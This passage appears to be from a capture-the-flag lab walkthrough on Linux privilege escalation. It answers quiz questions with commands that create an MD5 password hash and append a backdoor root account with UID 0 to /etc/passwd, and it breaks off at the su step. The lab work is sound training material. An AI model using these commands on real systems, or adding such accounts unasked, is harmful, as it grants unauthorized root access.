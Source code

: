 ### Q2. Having read the information above, what direction of privilege escalation is this attack?

**Ans:** Vertical

**Explanation:**  
This is vertical privilege escalation because we are attempting to gain higher privileges (root) with an existing account (user7).

### Q3. Before we add our new user, we first need to create a compliant password hash to add! We do this by using the command: `openssl passwd -1 -salt [salt] [password]`. What is the hash created by using this command with the salt, "new" and the password "123"?

#### Action

Generate the hash with:

```bash
openssl passwd -1 -salt "new" "123"
```

**Sample Output:**

```
$1$new$p7ptkEKU1HnaHpRtzNizS1
```

### Q4. Great! Now we need to take this value and create a new root user account. What would the `/etc/passwd` entry look like for a root user with the username "new" and the password hash we created before?

**Hint:** `username:passwordhash:0:0:root:/root:/bin/bash`

**Ans:** new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash

### Q5. Great! Now you’ve got everything you need. Just add that entry to the end of the `/etc/passwd` file!

#### Action

Add the entry with:

```bash
printf 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash\n' >> /etc/passwd
```

### Q6. Now, use `su` to login as the "new"

 account, and then enter the password. If you’ve done everything correctly, you should be greeted by a root prompt! Congratulations!

**Hint:** If you’re having problems authenticating, check that you’re escaping the `$`.

#### Action
